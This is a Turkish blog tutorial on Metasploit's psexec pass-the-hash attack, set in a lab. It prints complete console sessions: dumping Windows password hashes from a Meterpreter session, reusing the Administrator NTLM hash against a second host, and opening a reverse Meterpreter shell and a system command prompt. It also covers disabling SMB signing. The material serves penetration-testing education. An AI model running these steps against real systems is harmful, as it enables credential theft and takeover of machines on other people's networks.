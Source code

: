 ```yaml
---
draft: false

title:  'MSF PSEexec Pass the Hash'
date: '2017-05-25T13:17:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.' 
 
url:  /tr/msf-pseexec-pass-the-hash/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.



Normalde izlenen yol, sistemde meterpreter shell açıldığında `fgdump`, `pwdump` veya `cachedump` komutlarıyla parola elde etmektir. Bu aramalar esnasında bulduğunuz `hash` değerleri olursa, bunları çeşitli araçlar kullanarak çözmeye ve parolaların açık halini elde etmeye çalışırız.



Oysa bazen başka bir durumla karşı karşı kalabilirsiniz. Bir sistemde `Administrator` yetkili bir oturum açtınız ve kullanıcının `hash` olarak formatlı parolasını elde ettiniz. Bu oturum açtığınız sistem üzerinden aynı ağda bulunan başka bir sisteme bağlanmak istediğinizde, `Administrator` kullanıcısının parolasını çözmenize gerek olmayabilir. Genellikle ağdaki cihazlar bu `hash` değerleri kulanarak haberleşirler. psexec modülü, bulduğunuz `hash` değerini parola olarak kullanmanıza olanak sağlar.



UYARI-1:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
NTLM kullanan sistemde, bulacağınız `hash` değeri `******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c` formatındaysa, baş taraftaki `******NOPASSWORD*******` kısmını 32 adet sıfır ile değiştirerek `psexec` içine değişken olarak girmeniz gerekir. Yani değer, `00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c` şeklinde olmalıdır.
</blockquote>
<!-- /wp:quote -->


UYARI-2:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
Lab ortamında, doğru hash değeri girdiğiniz halde `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` hatası alıyorsanız, hedef Windows sisteminin Registry ayarlarında `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters` içerisinde `RequireSecuritySignature` değerini `0` olarak ayarlamalısınız.
</blockquote>
<!-- /wp:quote -->


## Hashdump



Aşağıda, bir exploit kullanılarak Meterpreter oturumu açılmıştır ve `post/windows/gather/hashdump` modülü ile sistemde hash değerleri bulunmak istenmektedir.


```bash
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.131:1042)

meterpreter > run post/windows/gather/hashdump 

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter >```



Görüldüğü gibi, `RHOST: 192.168.57.131` IP adresinde bulunan Administrator kullanıcısına ait `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` değeri elde edilmiştir.



Şimdi bu hash değerini kullanarak `RHOST: 192.168.57.140` IP adresine oturum açmayı deneyelim. Tabii ki önceden yaptığınız taramada aynı ağda `192.168.57.140` IP adresinde ve `445` portunda `SMB` servisinin çalıştığını keşfettiğinizi kabul ediyoruz.



## psexec



Önce `msfconsole` ile Metasploit Framework başlatalım ve `psexec` modülünü yükleyelim.


```bash
root@kali:~# msfconsole

                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##


       **=[** metasploit v4.2.0-dev **[**core:4.2 api:1.0]
+ -- --**=[** 787 exploits - 425 auxiliary - 128 post
+ -- --**=[** 238 payloads - 27 encoders - 8 nops
       **=[** svn r14551 updated yesterday (2012.01.14)

msf > search psexec

Exploits
**========**

   Name                       Description
   ----                       -----------
   windows/smb/psexec         Microsoft Windows Authenticated User Code Execution
   windows/smb/smb_relay      Microsoft Windows SMB Relay Code Execution

msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
LHOST => 192.168.57.133
msf exploit(psexec) > set LPORT 443
LPORT => 443
msf exploit(psexec) > set RHOST 192.168.57.140
RHOST => 192.168.57.140
msf exploit(psexec) > show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.140   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Automatic```



## SMBPass



Yukarıda görüldüğü gibi `exploit/windows/smb/psexec` modülünde `SMBPass` değişkenini girmemiz gerekmektedir. `SMBPass` değişkenine elimizde bulunan hash değerini girelim ve modülü `exploit` komutuyla çalıştıralım.


```bash
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'Administrator'...
> Uploading payload...
> Created \KoVCxCjx.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (XKqtKinn - "MSSeYtOQydnRPWl")...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \KoVCxCjx.exe...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.140:445)

meterpreter > shell
Process 3680 created.
Channel 1 created.
Microsoft Windows **[**Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```



Gördüğünüz gibi `192.168.57.140` IP adresinde oturum açılmıştır.
